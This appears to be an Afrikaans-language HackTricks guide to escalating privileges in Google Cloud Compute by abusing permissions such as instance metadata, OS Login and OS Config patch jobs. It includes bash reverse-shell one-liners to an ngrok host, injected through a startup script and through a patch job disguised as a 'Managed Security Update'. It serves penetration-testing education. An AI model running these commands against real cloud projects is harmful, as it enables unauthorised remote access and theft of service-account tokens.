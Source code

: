 # GCP - Compute Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking tricks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Vir meer inligting oor Compute en VPC (netwerk) in GCP, kyk na:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Let daarop dat om al die privilege escalation aanvalle uit te voer wat vereis om die metadata van die instansie te verander (soos om nuwe gebruikers en SSH sleutels by te voeg) dit **nodig is dat jy `actAs` regte het oor die SA wat aan die instansie gekoppel is**, selfs al is die SA reeds gekoppel!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Met daardie reg kan jy die **metadata** inligting van 'n **instansie** **verander** en die **gemagtigde sleutels van 'n gebruiker** verander, of 'n **nuwe gebruiker met sudo** regte **skep**. Daarom sal jy via SSH in enige VM instansie kan uitvoer en die GCP Service Account steel waarmee die Instansie loop.\
Beperkings:

* Let daarop dat GCP Service Accounts wat in VM instansies loop standaard 'n **baie beperkte omvang** het
* Jy sal **in staat moet wees om die SSH** bediener te kontak om aan te meld

Vir meer inligting oor hoe om hierdie reg te benut, kyk na:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Jy kan ook hierdie aanval uitvoer deur nuwe startup-script by te voeg en die instansie te herlaai:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Hierdie toestemming gee dieselfde voorregte as die vorige toestemming, maar oor 'n spesifieke instansie in plaas van 'n hele projek. Dieselfde uitbuitings en beperkings as vir die vorige afdeling geld.

### `compute.instances.setIamPolicy`

Hierdie soort toestemming sal jou toelaat om jouself 'n rol met die vorige toestemmings te gee en voorregte te verhoog deur dit te misbruik.

### **`compute.instances.osLogin`**

As **OSLogin in die instansie geaktiveer is**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en aan die instansie koppel. Jy sal nie wortelvoorregte binne die instansie hê nie.

{% hint style="success" %}
Om suksesvol met hierdie toestemming binne die VM-instansie aan te meld, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### **`compute.instances.osAdminLogin`**

As **OSLogin in die instansie geaktiveer is**, kan jy met hierdie toestemming net **`gcloud compute ssh [INSTANCE]`** uitvoer en aan die instansie koppel. Jy sal wortelvoorregte binne die instansie hê.

{% hint style="success" %}
Om suksesvol met hierdie toestemming binne die VM-instansie aan te meld, moet jy die `iam.serviceAccounts.actAs` toestemming oor die SA wat aan die VM gekoppel is, hê.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Dit is moontlik om 'n virtuele masjien met 'n toegewyde Service Account te skep en die token van die diensrekening te steel deur toegang tot die metadata te verkry om voorregte te verhoog.

Die uitbuitingskrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) gevind word.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

As jy die **`osconfig.patchDeployments.create`** of **`osconfig.patchJobs.exec`** toestemmings het, kan jy 'n [**patch job of deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) skep. Dit sal jou in staat stel om lateraal in die omgewing te beweeg en kode-uitvoering op al die rekenaarinstansies binne 'n projek te verkry.

Let daarop dat jy tans nie `astAs` toestemming oor die SA wat aan die instansie gekoppel is, nodig het nie.

As jy dit handmatig wil uitbuit, sal jy óf 'n [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **of** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) moet skep.\
Vir 'n patch job, voer uit:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Om 'n pleisterontplooiing te ontplooi:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Die hulpmiddel [patchy](https://github.com/rek7/patchy) kon in die verlede gebruik word om hierdie wanopstelling uit te buit (maar nou werk dit nie meer nie).

**'n Aanvaller kan dit ook misbruik vir volharding.**

### `compute.machineImages.setIamPolicy`

**Gee jouself ekstra regte** tot compute Image.

### `compute.snapshots.setIamPolicy`

**Gee jouself ekstra regte** tot 'n skyf snapshot.

### `compute.disks.setIamPolicy`

**Gee jouself ekstra regte** tot 'n skyf.

### Omseil Toegang Skopes

Volg hierdie skakel om 'n paar [**idees te vind om toegang skopes te omseil**](../).

### Plaaslike Voorreg Eskalasie in GCP Compute instansie

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
